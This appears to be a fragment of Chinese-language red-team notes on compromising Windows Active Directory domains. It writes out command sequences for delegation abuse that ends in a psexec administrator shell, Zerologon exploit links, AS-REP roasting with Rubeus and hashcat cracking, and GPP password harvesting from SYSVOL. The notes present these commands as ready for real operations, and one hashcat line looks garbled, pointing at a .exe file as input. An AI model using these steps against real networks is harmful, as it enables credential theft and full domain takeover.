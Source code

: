 
```cpp
.\SharpAddDomainMachine.exe domain=rootkit.org dc=owa2013.rootkit.org tm=SRV-WEB-KIT
```


然后实战中利用隧道执行以下命令即可
```cpp
getST.py -dc-ip owa2013.rootkit.org rootkit.org/4B23BBXE$:21XILFD07C -spn cifs/SRV-WEB-KIT.rootkit.org -impersonate administrator

export KRB5CCNAME=administrator.ccache

psexec.py rootkit.org/administrator@SRV-WEB-KIT.rootkit.org -k -no-pass
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1610258170540-a48b6298-2797-4061-8bdd-c7b93e97b15e.png#align=left&display=inline&height=470&margin=%5Bobject%20Object%5D&name=image.png&originHeight=940&originWidth=1788&size=143880&status=done&style=none&width=894)
### Zerologon

- MImikatz
- [https://github.com/rsmudge/ZeroLogon-BOF](https://github.com/rsmudge/ZeroLogon-BOF)
- [https://github.com/mstxq17/cve-2020-1472](https://github.com/mstxq17/cve-2020-1472)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1611593013233-7a01b256-b6d8-4f74-b34e-6ac6c4269488.png#align=left&display=inline&height=207&margin=%5Bobject%20Object%5D&name=image.png&originHeight=414&originWidth=540&size=182838&status=done&style=none&width=270)
## asreproasting离线爆破域用户密码
[https://www.anquanke.com/post/id/85374](https://www.anquanke.com/post/id/85374)


- 检查没有设置kerberos预身份验证的用户
```go
powerpick Get-DomainUser -PreauthNotRequired
```
- Use with impacket script
```go
getNPUsers.py
```

存在的话.利用rubeus自动生成离线hash
```go
rubeus.exe asrepoast /user:test /outfile:C:\windows\temp\testhash.txt /format:hashcat
```
hashcat 破解
```go
hashcat -m 18200 -a 0 /tmp/testrst.exe wordlist.txt --force
```


## GPP漏洞-MS14-025


```cpp
findstr /S cpassword \\test.org\sysvol\*.xml

Net-GPPPassword.exe 一键搞定
make_token user pass
```
## LAPS
[http://drops.xmd5.com/static/drops/tips-10496.html](http://drops.xmd5.com/static/drops/tips-10496.html)
